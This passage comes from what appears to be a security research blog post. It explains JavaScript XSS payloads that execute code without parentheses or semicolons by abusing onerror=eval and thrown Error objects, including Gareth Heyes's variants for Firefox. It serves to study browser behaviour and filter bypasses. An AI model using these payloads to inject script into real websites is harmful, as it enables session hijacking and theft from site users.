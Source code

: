This will first execute `onerror=alert`, then execute `throw 1`, achieving the same effect as our method using `{}`. This is another way that doesn't require semicolons.

The Chrome part ends here; the following is all efforts made for Firefox.

In Firefox, when there is an error, the format of the error message is different:

``` js
onerror=alert;
throw 1;
// uncaught exception: 1
```

Under this error message, it's impossible to construct valid code, and the previous suggestion of replacing `onerror` with `eval` no longer works.

So Gareth Heyes continued to dig deeper and discovered two things. The first is that if you throw an Error instead of a string, the error message won't have those annoying prefixes, leaving just `Error:`:

``` js
onerror=alert;
throw new Error(1);
// Error: 1
```

Since `Label:` is valid code in JavaScript, you can directly place code after it, making it easy:

``` js
onerror=eval;
throw new Error('alert(1)');
```

However, using `Error()` introduces parentheses, and Gareth Heyes' second discovery is that in Firefox, you can throw an error-like object to achieve the same effect:

``` js
onerror=eval;
throw {lineNumber:1,columnNumber:1,fileName:1,message:'alert\x281\x29'};
```

In summary, all of these efforts are to control the final error message produced by Firefox. As long as you can control it, you can construct valid code to pass to eval for execution.

Recently, I saw Gareth Heyes [tweet](https://x.com/garethheyes/status/1961078705293246513) that Firefox is going to remove this feature: [Firefox removed support for throwing error-like objects](https://github.com/PortSwigger/xss-cheatsheet-data/issues/103), so he found a new method:

``` js
throw onerror=eval,x=new Error,x.message='alert\x281\x29',x
```

It seems that if you want to create a new Error, you can do it without parentheses. After creating an Error object, you can set the message, and you can still control the error message.

## Other payloads

There are other payloads mentioned by others in the original post.

The first one comes from [@terjanq](https://x.com/terjanq/status/1128692453047975936):
